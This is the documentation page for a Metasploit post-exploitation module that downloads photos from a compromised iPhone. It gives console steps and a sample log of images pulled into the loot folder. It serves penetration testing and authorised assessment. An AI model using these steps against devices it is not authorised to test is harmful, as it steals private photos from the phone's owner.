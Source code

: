 ## Description

  This module downloads the discovered images on iPhones

## Verification Steps

  1. Start msfconsole
  2. Get a session
  3. Do: ```use post/apple_ios/gather/ios_image_gather```
  4. Do: ```set SESSION <session>```
  5. Do: ```run```
  6. You should get images from the iPhone target.

## Scenarios

### Tested on iOS 10.3.3 on an iPhone 5

  ```

  msf5 > use post/apple_ios/gather/ios_image_gather 
  msf5 post(apple_ios/gather/ios_image_gather) > set session 1
  session => 1
  msf5 post(apple_ios/gather/ios_image_gather) > run

  [!] SESSION may not be compatible with this module.
  [+] Image path found. Will begin searching for images...
  [*] Directory for iOS images: /Users/space/.msf4/loot/KlaBVw
  [*] Downloading image: IMG_0001.JPG
  [*] Downloading image: IMG_0002.JPG
  [*] Downloading image: IMG_0003.JPG
  [*] Downloading image: shell.php.jpg
  [*] Post module execution completed


  ```
